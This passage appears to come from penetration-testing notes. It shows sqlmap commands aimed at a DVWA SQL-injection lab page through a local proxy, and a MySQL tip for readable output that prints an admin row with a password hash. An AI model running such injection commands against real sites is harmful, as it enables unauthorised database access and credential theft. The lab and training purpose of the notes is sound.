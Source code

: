 ```
sqlmap -u "https://dvwa.prod.org/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie="PHPSESSID=lj1gugoprduur56u8lml5q373c; security=low" --proxy http://localhost:8081 --batch
```

* Proxy with burp request read&#x20;

```
sqlmap -r burp.request --cookie="PHPSESSID=lj1gugoprduur56u8lml5q373c; security=low" --proxy http://localhost:8081 --batch
```

* Now you can go through your zap history and see the exact requests sqlmap is making (will need to url decode in most cases

<figure><img src="../.gitbook/assets/image (4) (3).png" alt=""><figcaption></figcaption></figure>

### SQL Database Output Trick&#x20;

* When running sql commands from a shell sometimes the output from commands that rely on a table can get messed up. Below the output is normal but if you run the first command and your table is messed up, you can run the second command and get normal output

```
mysql> select * from admin;
+----+----------+----------------------------------+---------------------+------------------------+
| id | username | password                         | creationDate        | updationDate           |
+----+----------+----------------------------------+---------------------+------------------------+
|  1 | admin    | 21232f297a57a5a743894a0e4a801fc3 | 2020-01-24 08:21:18 | 03-06-2020 07:09:07 PM |
+----+----------+----------------------------------+---------------------+------------------------+

mysql> select * from admin\G
*************************** 1. row ***************************
          id: 1
    username: admin
    password: 21232f297a57a5a743894a0e4a801fc3
creationDate: 2020-01-24 08:21:18
updationDate: 03-06-2020 07:09:07 PM
1 row in set (0.00 sec)
```
